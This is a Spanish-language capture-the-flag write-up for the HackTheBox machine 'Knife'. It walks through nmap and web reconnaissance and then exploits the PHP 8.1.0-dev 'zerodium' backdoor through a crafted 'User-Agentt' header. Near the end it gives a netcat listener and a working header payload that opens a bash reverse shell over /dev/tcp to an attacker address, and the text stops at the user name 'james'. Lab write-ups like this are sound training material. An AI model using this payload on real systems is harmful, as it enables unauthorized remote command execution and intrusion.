

repository: scarlgyx/scarlgyx-cybersecurity · page: writeups/hackthebox/knife/index.html · generator: mkdocs

# Knife

```bash
sudo nmap -p- --open -sCV --min-rate=5000 -n 10.129.38.120 -oN nmapResult.txt
```

![](../../assets/img/Pasted_image_20260518174246.png)

```bash
nmap --script http-enum -p80 10.129.38.120
```

![](../../assets/img/Pasted_image_20260518175356.png)

- Launchpad -> Focal
-
```bash
whatweb http://10.129.38.120
```

http://10.129.38.120 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.38.120], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
- PHP, Apache

- Dentro del F12 vemos un enlace a un recurso js que nos reporta un 404 con info de un tal *codepen*

![](../../assets/img/Pasted_image_20260518182023.png)

- No parece algo relevante

![](../../assets/img/Pasted_image_20260518182700.png)

- En principio no se puede clickar en nada

- Gobuster no parece reportar nada aparte del *index.php*

- Wfuzz no encuentra ningún subdominio

- Escaneamos udp pero no vemos ningún puerto abierto potencial a priori
```bash
sudo nmap -sU --top-ports 100 --open -n 10.129.38.120
```

![](../../assets/img/Pasted_image_20260518184357.png)

- Miramos tecnologías de la web ya que no parece haber nada
- Apache 2.4.41 -> no parece tener nada
- PHP 8.1.0 -> última versión es la 8.5 -> Buscamos exploit
- Encontramos un posible RCE en github
https://github.com/flast101/php-8.1.0-dev-backdoor-rce.git

- Leemos lo que hace el exploit y parece que añade un parámetro de "*User-Agentt:*" con la cadena *zerodiumsystem("comando");* con el comando que se quiere explotar.
Si capturamos la petición que carga la web y añadimos esto vemos que se produce el RCE

![](../../assets/img/Pasted_image_20260518190019.png)

![](../../assets/img/Pasted_image_20260518190027.png)

Vulnerabilidad interesante, atacante consiguió meter un backdoor en el repositorio git de php, el cual activava un RC cuando encontraba la cadena "zerodium"

![](../../assets/img/Pasted_image_20260518191234.png)

- Ejecutamos el payload con burpsuite
```bash
nc -nlvp 4444
```

En Burp añadimos la cabecera maliciosa:
```bash
User-Agentt: zerodium system("bash -c \"bash -i >& /dev/tcp/10.10.15.36/4444 0>&1\"");
```

james
